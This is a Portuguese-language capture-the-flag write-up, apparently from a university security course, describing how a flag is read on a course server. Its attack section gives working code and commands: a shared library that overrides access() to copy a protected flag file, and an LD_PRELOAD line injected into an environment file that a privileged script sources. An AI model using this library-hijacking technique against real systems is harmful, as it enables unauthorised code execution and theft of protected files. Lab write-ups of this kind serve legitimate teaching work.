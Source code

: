 # CTF 2 - Semana 4

## Reconhecimento

Ao entrarmos no port 4006 do host ctf-fsi.fe.up.pt, usando o comando `nc ctf-fsi.fe.up.pt 4006` com o vpn da FEUP ativado, fizemos o ls -l para verificar o conteúdo da pasta onde estávamos.

![ls](/Images/lsl.png)

Após analisar o conteúdo do admin_note.txt , usando o `cat admin_note.txt`, percebemos que existe uma vulnerabilidade que pode ser explorada na pasta `tmp`, usando um script que corre regularmente no servidor. Podemos aproveitar isso para dar load de uma livraria maliciosa que é executado automáticamente pelo servidor (pois só ele tem as permissões para tal). Na livraria maliciosa podemos dar override à uma das funções que se encontram no main.c (`(my_big_congrats() puts() acess() )` e executar o nosso código malicioso.


```
flag_reader,

I locked you out of the temp folders.
Told you before they are not to be used as permanent storage!
Hackers stole the flag by reading the files you left there!!!!!!
Finish your damn program ASAP!!!!!
Tired of waiting for you to lock them out for good, you lazy !@%#

- The Admin
```
*admin_notes.txt*

```
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```
*my_script.sh*

```
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```
*main.c*



## Ataque

Ao acedermos à pasta `tmp`, vamos criar um ficheiro access.c onde vamos escrever o nosso código malicioso, que será o seguinte:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
}
```

Usando o seguinte comando, vamos escrever o código no ficheiro através do terminal:

```
echo '
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} ' >> access.c
```

Podemos aproveitar para fazer `touch ll.txt` e `chmod 777 ll.txt` só para evitar problemas que possam surgir.

Agora vamos criar a tal livraria maliciosa:

```
gcc -fPIC -g -shared -o /tmp/access.so /tmp/access.c -lc
```

E por fim, vamos alterar o conteúdo do env no tmp , dado que na imagem anterior, podemos reparar que é uma referência a este env:

```
echo 'LD_PRELOAD=/tmp/access.so' >> env
```

Agora esperamos que o servidor execute o nosso código e podemos obter a nossa flag no ficheiro .txt que criamos.

Exemplo de demonstração:

![flag](Images/order.png)

